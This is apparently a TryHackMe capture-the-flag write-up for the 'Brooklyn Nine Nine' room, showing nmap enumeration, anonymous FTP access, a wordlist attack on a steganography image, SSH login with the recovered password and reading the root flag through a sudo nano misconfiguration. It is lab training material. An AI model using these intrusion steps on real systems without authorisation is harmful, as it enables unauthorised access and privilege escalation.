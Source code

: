 # THM ![Try Hack Me](https://img.shields.io/badge/-TryHackMe-black?style=flat-square&logo=tryhackme)

## Room name: Brooklyn Nine Nine
<https://tryhackme.com/room/brooklynninenine>

### Description: 
This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box.

### OS: ![Linux](https://img.shields.io/badge/Linux-black?style=flat-square&logo=linux)


To begin we will start with a simple nmap scan to enumerate open ports, services, and versions:

```bash
nmap -sC -sV -A -oN scans/nmap.initial $IP
```
The following ports are open on the machine:

port 	   |service
-----------|----------
21		   |ftp
22         |ssh
80		   |webserver

nmap is reporting that the FTP allows anonymous login.
```bash
21/tcp open  ftp     vsftpd 3.0.3
ftp-anon: Anonymous FTP login allowed (FTP code 230)
```

We connect to to the FTP with *anonymous* credentials
```
ftp 10.10.240.86
Connected to 10.10.240.86.
220 (vsFTPd 3.0.3)
Name (10.10.240.86:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Within the FTP server we use ls to list directory contents and find a file named **note_to_jake.txt**:
```
~# cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
So far we have gathered 3 possible usernames:

- Amy
- Holt
- Jake


Viewing the website on port 80 we see a large image with no other html elements.
Looking at the source of the page reveals the following comment.
```html
<!-- Have you ever heard of steganography? -->
```
Following this lead, we download the file and run stegcracker on the file to reveal any additional clues.

```bash
stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt

Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: *****
Tried 20586 passwords
Your file has been written to: brooklyn99.jpg.out
```
Now with the password in hand, we can use steghide to extract.

```bash
steghide extract -sf brooklyn99.jpg

Enter Passphrase:
wrote extracted data ot "Note.txt".
```

The note reads as follows:
```bash
Holts Password:
fl*********ne

Enjoy!!
```
## User Flag:
With these credentials, we can attempt to log into ssh using Holts account.

```bash
# ssh holt@10.10.98.170
The authenticity of host '10.10.98.170 (10.10.98.170)' can't be established.
ECDSA key fingerprint is SHA256:Ofp49Dp4VBPb3v/vGM9jYfTRiwpg2v28x1uGhvoJ7K4.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.98.170' (ECDSA) to the list of known hosts.
holt@10.10.98.170's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$
```

We then list the directory contents and find the user flag:
```bash
holt@brookly_nine_nine:~$ ls
nano.save  user.txt
holt@brookly_nine_nine:~$ cat user.txt 
ee1**************ee
```

## Root Flag
Now that we have a user shell we can review what, if any SUDO permissions are available for use. To do so we run *sudo -l* to enumerate. We see that holt may run nano as SUDO. 
```bash
User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```
This being the case, we can attempt to open the root.txt file located in the root user home directory. Running sudo /bin/nano /root/root.txt reveals the following output.

```bash
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63**************45

Enjoy!!
```

## Takeaways

1. Basic enumeration with nmap
2. Steganography tools
3. FTP use
4. ssh login with found creds
5. sudo enumeration and exploitation of privilege

